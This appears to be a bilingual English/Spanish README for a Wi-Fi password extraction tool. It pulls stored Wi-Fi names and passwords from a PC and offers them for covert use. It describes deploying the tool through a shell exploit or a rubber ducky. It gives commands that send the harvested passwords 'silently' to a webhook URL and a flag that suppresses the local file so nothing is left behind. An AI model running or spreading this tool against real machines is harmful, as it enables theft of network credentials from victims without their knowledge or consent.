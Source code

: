 # WIFI_Extractor

if you run it with python you might need this requeriments
Si lo ejecutas con python tal vez podrias necesitar estos requerimientos


pip install click

pip install elementpath

pip install requests

Script to extract WIFI passwords from a pc uploading it remotely (shell exploit) and send it to a url "silently"(webhook without leaving files 
and also can be used offline, physically (rubber ducky)

Script para extraer contraseñas WIFI de un pc subiendolo remotamente(shell exploit) y enviarlo a una url "silenciosamente"(webhook) 
Tambien se puede usar offline, físicamente con un pendrive(rubber ducky)


Usage: E_WIFI.exe [OPTIONS]

Options:
  -u, --url TEXT      Webhook/POST URL
  -n, --no-txt        No crea el archivo txt | Doesn't create the txt file
  -v, --version       Imprime la version | Prints the version
  -p, --print-output  Muestra la salida en la terminal | Shows the output in
                      the terminal
  --help              Show this message and exit.
  

Offline

python3 E_WIFIoffline.py

CMD or Powershell E_WIFIoffline.exe | ./E_WIFIoffline.exe (You can also double click it)

Creates a txt with the WIFI's ssid and passwords stored in the local machine
Crea un txt con los nombres y las contrasenas WIFI guardadas en la maquina local

Online

Usages

default usage
python3 E_WIFI.py

CMD or Powershell E_WIFI.exe | ./E_WIFI.exe

Creates a txt with the WIFI's ssid and passwords stored in the local machine
Crea un txt con los nombres y las contrasenas WIFI guardadas en la maquina local

Another Example

python3 E_WIFI.py -u https://webhook.site/yoururl -n -p 
CMD or Powershell E_WIFI.exe | ./E_WIFI.exe -u https://webhook.site/yoururl -n -p

type --help for more detailed info

PD: THE TXT IS CREATED BY DEFAULT -n TURN IT OFF
    EL TXT SE CREA POR DEFECTO -n APAGA LA CREACION
